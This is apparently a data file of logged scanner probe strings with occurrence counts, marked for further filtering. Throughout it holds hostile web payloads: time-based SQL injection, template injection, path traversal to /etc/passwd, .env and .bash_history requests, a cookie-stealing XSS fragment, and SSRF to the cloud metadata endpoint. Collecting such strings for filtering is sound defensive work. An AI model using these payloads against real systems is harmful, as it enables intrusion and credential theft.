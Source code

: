 ****# Need further filter for these

sleep(20.to_i),1
#{31337*31337},1
$%257B(923418 923418)%257D/2000,1
$%7B(133832 133832)%7D/1,1
$%7B(412847 412847)%7D/1,1
$%7B(480736 480736)%7D/1,1
$%7B(638 638)%7D/1,1
$%7B(809 809)%7D/1,1
$%7B(905798 905798)%7D/1,1
$%7B(951592 951592)%7D/1,1
%20%7C%7C%28%28select%20count%28pg_sleep%2810%29%29%29%29%20%7C%7C,7
%20%7C%7C%28DBMS_PIPE.RECEIVE_MESSAGE%28CHR%2841%29%2C10%29%29%20%7C%7C,7
%201%20JfICOXiqqf%20foo,1
%201%20JyKpaivBRU%20foo,1
%201%20rzHkJcaFMO%20foo,1
%201%20sJZGTOgBsL%20foo,1
%201%20wVefaTPFcD%20foo,1
%221%22JfICOXiqqf%22foo,1
%221%22JyKpaivBRU%22foo,1
%221%22rzHkJcaFMO%22foo,1
%221%22sJZGTOgBsL%22foo,1
%221%22wVefaTPFcD%22foo,1
%2520%257C%257C%2528%2528select%2520count%2528pg_sleep%252810%2529%2529%2529%2529%2520%257C%257C,1
%2520%257C%257C%2528DBMS_PIPE.RECEIVE_MESSAGE%2528CHR%252841%2529%252C10%2529%2529%2520%257C%257C,1
%25202000%2520FBQeoOstQc%2520foo,1
%2520AND%2520101%2520like%2520102%2520OR%25201234%2520like%25207275661,1
%2520AND%252013%2520like%252013%2520OR%25201234%2520like%25207274322,1
%2520AND%252055%2520like%252055%2520OR%25201234%2520like%25207275895,1
%2520AND%252059%2520like%252059%2520OR%25201234%2520like%25207275281,1
%2520AND%252062%2520like%252062%2520OR%25201234%2520like%25207270885,1
%2520AND%252067%2520like%252068%2520OR%25201234%2520like%25207272315,1
%25222000%2522FBQeoOstQc%2522foo,1
%25252fetc%25252fpasswd,1
%252565%25256e%252563%252556%252547%252568%252544%25257a,1
%2528%2528SELECT%25201%2520FROM%2520%2528SELECT%2520SLEEP%252810%2529%2529A%2529%2529,1
%2528%2528select%2520count%2528pg_sleep%252810%2529%2529%2529%2529,1
%2528%2528select/%252Ax%252A/count%2528pg_sleep%252810%2529%2529%2529%2529,1
%2528DBMS_PIPE.RECEIVE_MESSAGE%2528CHR%252841%2529%252C10%2529%2529,1
%2529%2520AND%252017%2520like%252018%2520OR%25201234%2520like%2520%25287277275,1
%2529%2520AND%252019%2520like%252019%2520OR%25201234%2520like%2520%25287273310,1
%2529%2520AND%252037%2520like%252038%2520OR%25201234%2520like%2520%25287272392,1
%2529%2520AND%252038%2520like%252038%2520OR%25201234%2520like%2520%25287279477,1
%2529%2520AND%252066%2520like%252066%2520OR%25201234%2520like%2520%25287277154,1
%2529%2520AND%252078%2520like%252078%2520OR%25201234%2520like%2520%25287276524,1
%252B%2528%2528SELECT%25201%2520FROM%2520%2528SELECT%2520SLEEP%252810%2529%2529A%2529%2529%252B,1
%252C%2528SELECT%25201%2520FROM%2520%2528SELECT%2520SLEEP%252810%2529%2529A%2529,1
%252fetc%252fpasswd,2
%255Cu0065%255Cu006e%255Cu0063%255Cu0058%255Cu0046%255Cu004f%255Cu0054%255Cu0064,1
%255Cx65%255Cx6e%255Cx63%255Cx46%255Cx5a%255Cx6d%255Cx66%255Cx73,1
%2565%256e%2563%2546%2543%254d%2556%2541,1
%2565%256e%2563%254a%2544%2565%2564%2541,1
%2565%256e%2563%2551%254c%2554%2578%2569,1
%2565%256e%2563%2555%2556%254f%2578%2572,1
%2565%256e%2563%2564%2567%2561%257a%254a,1
%2565%256e%2563%2565%254d%254c%256f%2553,1
%2565%256e%2563%2575%2566%256a%2575%2570,1
%25c1%25a5%25c1%25ae%25c1%25a3%25c1%25a7%25c1%25a8%25c1%258e%25c1%25a3%25c1%25b3,1
%28%28SELECT%201%20FROM%20%28SELECT%20SLEEP%2810%29%29A%29%29,7
%28%28SELECT/%2Ax%2A/1/%2Ax%2A/FROM/%2Ax%2A/%28SELECT/%2Ax%2A/SLEEP%2810%29%29A%29%29,2
%28%28select%20count%28pg_sleep%2810%29%29%29%29,7
%28%28select/%2Ax%2A/count%28pg_sleep%2810%29%29%29%29,2
%28DBMS_PIPE.RECEIVE_MESSAGE%28CHR%2841%29%2C10%29%29,7
%2Ax%2A/%7C%7C%28%28select/%2Ax%2A/count%28pg_sleep%2810%29%29%29%29/%2Ax%2A/%7C%7C,1
%2Ax%2A/%7C%7C%28DBMS_PIPE.RECEIVE_MESSAGE%28CHR%2841%29%2C10%29%29/%2Ax%2A/%7C%7C,1
%2B%28%28SELECT%201%20FROM%20%28SELECT%20SLEEP%2810%29%29A%29%29%2B,7
%2B%28%28SELECT/%2Ax%2A/1/%2Ax%2A/FROM/%2Ax%2A/%28SELECT/%2Ax%2A/SLEEP%2810%29%29A%29%29%2B,2
%2fetc%2fpasswd,25
%3C1KNX%3C1,1
%5Cu0065%5Cu006e%5Cu0063%5Cu0042%5Cu0069%5Cu004b%5Cu005a%5Cu0050,1
%5Cu0065%5Cu006e%5Cu0063%5Cu0043%5Cu004e%5Cu0062%5Cu0057%5Cu005a,1
%5Cu0065%5Cu006e%5Cu0063%5Cu0044%5Cu0059%5Cu0045%5Cu0044%5Cu0045,1
%5Cu0065%5Cu006e%5Cu0063%5Cu0047%5Cu005a%5Cu0042%5Cu007a%5Cu006a,1
%5Cu0065%5Cu006e%5Cu0063%5Cu0050%5Cu006f%5Cu0056%5Cu004e%5Cu0044,1
%5Cu0065%5Cu006e%5Cu0063%5Cu0051%5Cu006c%5Cu0077%5Cu0062%5Cu0070,1
%5Cu0065%5Cu006e%5Cu0063%5Cu006b%5Cu007a%5Cu0074%5Cu0069%5Cu006c,1
%5Cx65%5Cx6e%5Cx63%5Cx43%5Cx4b%5Cx63%5Cx6c%5Cx51,1
%5Cx65%5Cx6e%5Cx63%5Cx47%5Cx52%5Cx69%5Cx4c%5Cx75,1
%5Cx65%5Cx6e%5Cx63%5Cx4a%5Cx61%5Cx64%5Cx77%5Cx4a,1
%5Cx65%5Cx6e%5Cx63%5Cx4c%5Cx6e%5Cx54%5Cx41%5Cx78,1
%5Cx65%5Cx6e%5Cx63%5Cx58%5Cx65%5Cx68%5Cx69%5Cx6e,1
%5Cx65%5Cx6e%5Cx63%5Cx67%5Cx71%5Cx63%5Cx73%5Cx51,1
%5Cx65%5Cx6e%5Cx63%5Cx77%5Cx6c%5Cx62%5Cx78%5Cx4b,1
%5cweb-console,1
%65%6e%63%41%71%69%5a%4f,1
%65%6e%63%42%44%6d%73%65,1
%65%6e%63%44%76%47%76%48,1
%65%6e%63%46%76%76%57%65,1
%65%6e%63%47%50%6e%5a%7a,1
%65%6e%63%4d%53%50%4d%47,1
%65%6e%63%4d%73%79%68%56,1
%65%6e%63%4e%77%63%4c%58,1
%65%6e%63%4f%6b%46%6c%52,1
%65%6e%63%51%77%6f%50%4c,1
%65%6e%63%53%67%52%64%5a,1
%65%6e%63%53%6a%6d%55%45,1
%65%6e%63%56%41%6a%51%77,1
%65%6e%63%59%41%75%46%62,1
%65%6e%63%59%59%59%75%54,1
%65%6e%63%61%70%71%6f%4e,1
%65%6e%63%64%4e%6e%6b%6a,1
%65%6e%63%66%47%63%6a%6f,1
%65%6e%63%69%6f%44%47%49,1
%65%6e%63%69%71%65%4f%44,1
%65%6e%63%6e%59%77%69%6c,1
%65%6e%63%71%6e%6a%53%64,1
%65%6e%63%71%76%73%44%56,1
%65%6e%63%74%65%73%74%6d%78%52%53%58,1
%65%6e%63%77%76%4d%6f%4b,1
%65%6e%63%78%51%4a%65%42,1
%65%6e%63%7a%54%58%73%79,1
%C4%8Dular,1
%EF%BC%B3%E2%84%AA%EF%BD%85%EF%BD%8E%EF%BD%83%EF%BC%A5%EF%BD%8E%EF%BD%94%EF%BC%AC%EF%BD%89,1
%EF%BC%B3%E2%84%AA%EF%BD%85%EF%BD%8E%EF%BD%83%EF%BC%B2%EF%BD%98%EF%BC%AF%EF%BC%AE%EF%BD%8D,1
%c1%a5%c1%ae%c1%a3%c1%82%c1%96%c1%86%c1%ad%c1%8f,1
%c1%a5%c1%ae%c1%a3%c1%88%c1%8e%c1%91%c1%ae%c1%84,1
%c1%a5%c1%ae%c1%a3%c1%88%c1%ae%c1%a7%c1%b7%c1%96,1
%c1%a5%c1%ae%c1%a3%c1%96%c1%98%c1%ad%c1%ad%c1%b4,1
%c1%a5%c1%ae%c1%a3%c1%a2%c1%a9%c1%8d%c1%ba%c1%ac,1
%c1%a5%c1%ae%c1%a3%c1%b6%c1%b5%c1%aa%c1%87%c1%94,1
%c1%a5%c1%ae%c1%a3%c1%b9%c1%a1%c1%89%c1%94%c1%94,1
%ef%bc%82%20%7C%7C%28%28select%20count%28pg_sleep%2810%29%29%29%29%20%7C%7C%ef%bc%82,7
%ef%bc%82%20%7C%7C%28DBMS_PIPE.RECEIVE_MESSAGE%28CHR%2841%29%2C10%29%29%20%7C%7C%ef%bc%82,7
%ef%bc%82%2B%28%28SELECT%201%20FROM%20%28SELECT%20SLEEP%2810%29%29A%29%29%2B%ef%bc%82,7
%ef%bc%87%20%7C%7C%28%28select%20count%28pg_sleep%2810%29%29%29%29%20%7C%7C%ef%bc%87,7
%ef%bc%87%20%7C%7C%28DBMS_PIPE.RECEIVE_MESSAGE%28CHR%2841%29%2C10%29%29%20%7C%7C%ef%bc%87,7
%ef%bc%87%2B%28%28SELECT%201%20FROM%20%28SELECT%20SLEEP%2810%29%29A%29%29%2B%ef%bc%87,7
%ef%bc%b3%e2%84%aa%ef%bd%85%ef%bd%8e%ef%bd%83%ef%bc%a4%ef%bd%99%ef%bc%a2%ef%bc%aa%ef%bd%92,1
%ef%bc%b3%e2%84%aa%ef%bd%85%ef%bd%8e%ef%bd%83%ef%bc%aa%ef%bd%95%ef%bc%a5%ef%bd%82%ef%bc%a3,1
%ef%bc%b3%e2%84%aa%ef%bd%85%ef%bd%8e%ef%bd%83%ef%bc%ad%ef%bd%84%ef%bd%95%ef%bd%95%ef%bd%91,1
%ef%bc%b3%e2%84%aa%ef%bd%85%ef%bd%8e%ef%bd%83%ef%bc%af%ef%bc%ac%ef%bd%89%ef%bc%a8%ef%bc%a9,1
%ef%bc%b3%e2%84%aa%ef%bd%85%ef%bd%8e%ef%bd%83%ef%bc%b1%ef%bc%b6%ef%bd%9a%ef%bd%82%ef%bd%86,1
%ef%bc%b3%e2%84%aa%ef%bd%85%ef%bd%8e%ef%bd%83%ef%bc%b4%ef%bd%86%ef%bc%a7%ef%bc%b3%ef%bd%86,1
%ef%bc%b3%e2%84%aa%ef%bd%85%ef%bd%8e%ef%bd%83%ef%bc%b6%ef%bd%82%ef%bc%a9%ef%bc%b1%ef%bd%8d,1
%ef%bc%b3%e2%84%aa%ef%bd%85%ef%bd%8e%ef%bd%83%ef%bc%b9%ef%bd%8c%ef%bc%a7%ef%bd%90%ef%bc%aa,1
%ef%bc%b3%e2%84%aa%ef%bd%85%ef%bd%8e%ef%bd%83%ef%bd%82%ef%bd%84%ef%bc%a5%ef%bd%83%ef%bc%a7,1
%ef%bc%b3%e2%84%aa%ef%bd%85%ef%bd%8e%ef%bd%83%ef%bd%85%ef%bc%a2%ef%bd%90%ef%bc%ad%ef%bd%92,1
%ef%bc%b3%e2%84%aa%ef%bd%85%ef%bd%8e%ef%bd%83%ef%bd%85%ef%bd%86%ef%bc%a6%ef%bd%8b%ef%bc%a4,1
%ef%bc%b3%e2%84%aa%ef%bd%85%ef%bd%8e%ef%bd%83%ef%bd%8b%ef%bd%95%ef%bc%ad%ef%bd%93%ef%bc%a8,1
%ef%bc%b3%e2%84%aa%ef%bd%85%ef%bd%8e%ef%bd%83%ef%bd%93%ef%bc%a4%e2%84%aa%ef%bd%8f%ef%bc%a3,1
%ef%bc%b3%e2%84%aa%ef%bd%85%ef%bd%8e%ef%bd%83%ef%bd%9a%ef%bc%a5%ef%bc%a4%ef%bc%a7%ef%bc%b4,1
&#039; alert(document.cookie) &amp;#039,2
&#101;&#110;&#099;&#116;&#101;&#115;&#116;&#069;&#103;&#080;&#087;&#118;,1
"(DBMS_PIPE.RECEIVE_MESSAGE(CHR(41),10))",23
*.doc,1
*/wkJtPzv,1
*pdf,1
",",1
. sleep(intval(20)),1
..%3B/web-console,1
...,1
.....,1
../,1
../1,9
../2000,16
../2021,1
..\\,1
..\\1,9
..\\2000,16
..\\2021,1
./1,9
./2000,16
./2021,1
.1080/17429145.2018.1550219.,1
.\\,1
.\\1,9
.\\2000,16
.\\2021,1
.bash_history,6
.bash_logout,1
.ens,3
.env,6
.jpg,1
.listing,1
.png,1
.tex,2
.travis.yml,6
.wav,1
/%2Ax%2A/%7C%7C%28%28select/%2Ax%2A/count%28pg_sleep%2810%29%29%29%29/%2Ax%2A/%7C%7C,2
/%2Ax%2A/%7C%7C%28DBMS_PIPE.RECEIVE_MESSAGE%28CHR%2841%29%2C10%29%29/%2Ax%2A/%7C%7C,2
///ptst.io/js_include_test,27
//ptst.io/js_include_test,27
/etc/passwd,2
/ptst.io/js_include_test,27
testheaderxxx: testval1",9
1 . sleep(intval(20)),9
1 GicNzaROCL foo,2
1 HEpeXABNpg foo,2
1 HToINiiOfu foo,2
1 IHOHMoAmri foo,2
1 JkGznNUecW foo,1
1 ORDER BY 1#,2
1 ORDER BY 1268#,1
1 ORDER BY 1445#,1
1 cDMhkauVQi foo,1
1 srFsdQgGuf foo,2
1 xjnJNpmyiH foo,2
1#{31337*31337},9
1${31337*31337},15
1&#101;&#110;&#099;&#116;&#101;&#115;&#116;&#083;&#110;&#106;&#078;&#088;,1
1&#101;&#110;&#099;&#116;&#101;&#115;&#116;&#086;&#067;&#077;&#112;&#080;,1
1&#101;&#110;&#099;&#116;&#101;&#115;&#116;&#099;&#121;&#103;&#107;&#112;,1
1&#101;&#110;&#099;&#116;&#101;&#115;&#116;&#104;&#067;&#080;&#084;&#102;,1
1&#101;&#110;&#099;&#116;&#101;&#115;&#116;&#110;&#118;&#097;&#077;&#067;,1
1&#101;&#110;&#099;&#116;&#101;&#115;&#116;&#112;&#104;&#078;&#079;&#108;,1
1&#101;&#110;&#099;&#116;&#101;&#115;&#116;&#120;&#089;&#082;&#080;&#116;,1
1&#101;&#110;&#099;&#116;&#101;&#115;&#116;&#121;&#114;&#072;&#085;&#084;,1
1&lt;IXGjGnT,1
1&lt;JMbAwfH,1
1&lt;a&gt;LzhBl&lt;/a&gt;,1
1&lt;a&gt;WudMB&lt;/a&gt;,1
1&lt;a&gt;eoBtn&lt;/a&gt;,1
1&lt;a&gt;rjmKU&lt;/a&gt;,1
1&lt;a&gt;sAObV&lt;/a&gt;,1
1&lt;eZGHgaG,1
1&lt;pxjGVUV,1
1&lt;qerNbEu,1
1);SELECT SLEEP(5)#,2
1*/MjamFwE,1
1*/QWVxqNR,1
1*/VBHOMbJ,1
1*/aYrqASn,1
1*/bXukwEk,1
10.48.104.55:/data/repositories/2/nw/2e/f9/71/247783679/231841558.git,1
12e6ec0874f8f0a400b12e162345334012e,1
12scnggjtcyfjyu1234567890poiiijjggggggffffffffffffffffffffffffffffffff,1
192.168.0.1,1
192.168.1.1,1
1;SELECT SLEEP(5)#,2
1@169.254.169.254/latest/meta-data/,6****
